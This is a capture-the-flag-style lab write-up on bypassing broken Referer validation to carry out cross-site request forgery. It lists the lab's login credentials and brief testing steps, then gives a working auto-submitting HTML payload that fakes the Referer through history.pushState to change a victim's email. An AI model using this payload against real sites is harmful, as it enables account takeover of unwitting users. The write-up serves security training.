 ### Lab: CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Logged-in as user _wiener_, changed email

2. Repeated the request via Burp Repeater without the Referrer header, returned message _400 Bad request Invalid Referer Header_

3. Same error message if request is sent with Referer Header set to a domain like _fakedomain.fake_

4. Success if right in Referer Header: right-domain.net.fakedomain.fake.  
As subdomain

4. HTML payload that add a page in the browser history to trick the browser to generates a valid referer header

```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="yougot@hacked">
            <button type="submit">Submit</button>
        </form>
    </body>
    <script>
        history.pushState("", "", "/?URL");
        document.forms[0].submit()
    </script>
</html>
```

In an HTML document, the history.pushState() method adds an entry to the browser's session history stack.